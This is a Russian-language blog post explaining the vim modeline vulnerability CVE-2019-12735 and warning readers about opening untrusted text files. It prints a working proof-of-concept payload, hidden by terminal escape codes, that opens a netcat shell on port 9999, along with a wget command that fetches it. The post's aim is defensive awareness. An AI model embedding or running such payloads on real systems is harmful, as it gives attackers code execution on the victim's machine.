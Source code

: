 ```yaml
---
layout: post
title:  "Открываем незнакомые файлы с осторожностью даже текстовым редактором!"
meta_description: "Демонстрация уязвимости в текстовом редакторе vim с объяснениями почему открывать незнакомые текстовые файлы опасно даже в текстовом редакторе"
date:   2019-10-22
tags: vim exploits vulnerability
categories: article
author: "soko1"
---
```


Многим известно, что открывать прикрепленные файлы к письму на email бывает небезопасно, но сколько человек при этом открывает незнакомые текстовые файлы, например, в текстовом редакторе? Особенно если это Linux и какой-нибудь проверенным временем текстовый редактор vim/emacs! Что может случиться? 

## Краткое описание недавней уязвимости в vim

Не хочу вдаваться в технические подробности дырки, которую нашли в текстовом редакторе vim, об этом написано не мало статей (уязвимости присвоен номер <a href="https://nvd.nist.gov/vuln/detail/CVE-2019-12735" target="_blank">CVE-2019-12735</a>), но хочу рассказать о том, какую опасность это несёт и почему надо быть предельно аккуратным даже с такими казалось бы базовыми инструментами.

Смысл атаки прост: вам присылают файлик, вы его открываете в vim, а тем временем у вас на компьютере выполняется код. Например, качается с удаленного сервера бекдор и устанавливается в систему. При чем вы даже не видите целиком содержимого файла, вся выполняемая конструкция замаскирована и не отображается. 

## Демонстрация экслоита

Рассмотрим один из экслоитов для vim. 

Скачаем сам эксплоит:

```
$ wget https://raw.githubusercontent.com/numirias/security/master/data/2019-06-04_ace-vim-neovim/shell.txt
```

А теперь попробуем его прочитать, например, утилитой cat:

```
$ cat shell.txt
Nothing here.
```

А вот что в файлике находится на самом деле:

```
$ cat -v shell.txt
[?7lSNothing here.:silent! w | call system('nohup nc 127.0.0.1 9999 -e /bin/sh &') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails('set\ fde=x\ \|\ source\!\ \%') fdl=0: [1G[KNothing here."[D 
```

То есть вы качаете незнакомый файлик, открываете его в уязвимом текстовом редакторе и у вас открывается шелл на 9999-порту и делай дальше с вашей машиной что хочешь :) 

## Выводы

Открытие незнакомых текстовых файлов в текстовых редакторах — не менее опасное действие нежели запуск exe/elf-файлов.

Если вы не доверяете источнику с которого скачен файл — лучше запустить его в изолированном окружении вроде виртуальной машины, или тестовой vps.

Как вариант — добавьте в ваш шелл (например, ~/.zshrc) следующий alias, чтобы хоть как-то обнаружить возможную маскировку шелл-кода в незнакомом файле. При условии что это не эксплоит к утилите cat, или терминалу :)

```
alias cv='cat -v'
```

Ну и конечно же не забывайте обновлять всё ПО и ОС на всех ваших девайсах.